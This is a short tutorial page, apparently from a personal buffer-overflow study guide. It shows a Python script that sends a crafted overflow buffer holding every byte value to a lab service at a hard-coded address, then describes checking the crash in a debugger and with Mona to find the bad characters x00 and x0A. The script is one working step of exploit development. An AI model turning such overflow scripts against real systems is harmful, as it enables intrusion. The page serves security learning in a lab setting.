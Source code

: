 One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Pyrhon
#!/usr/bin/python

import socket,sys

badchar_test = ""
badchars = [0x00, 0x0A]
RHOST = "192.168.0.227"
RPORT = 31337

for i in range(0x00, 0xFF+1):
    if i not in badchars:
        badchar_test += chr(i)
        
with open("badchar_test.bin", "wb") as f:
    f.write(badchar_test)
    
buffer = "A"*146 + "B"*4 + badchar_test

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":

![Badchars Dump](badcharsDump.png)

We can now bring our badchars_test.bin to our Windows VM by using
```python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:

![Find Badchars](findBadchars.png)

We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
